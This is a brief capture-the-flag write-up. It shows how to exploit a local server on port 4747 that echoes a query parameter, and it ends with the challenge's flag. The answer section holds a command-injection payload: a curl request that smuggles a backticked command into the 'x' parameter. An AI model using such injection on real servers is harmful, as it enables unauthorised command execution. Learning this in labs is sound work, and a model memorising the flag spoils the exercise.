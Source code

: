 HINT:
we notice there is a server running on localhost:4747, now all we have to do is read what the code does and exploit it

ANSWER:
by reading the code we notice that the server is running on localhost:4747, we also notice that it will print the parameter "x" it receives, let's try:
curl localhost:4747/?x=uwu
now we do:
curl localhost:4747/?x=getflag
and it just prints getflag, we need to add ` to make our command start before the echo (https://unix.stackexchange.com/questions/27428/what-does-backquote-backtick-mean-in-commands) so we do:
curl localhost:4747:4747/?x='`getflag`'
and we get:
ne2searoevaevoem4ov4ar8ap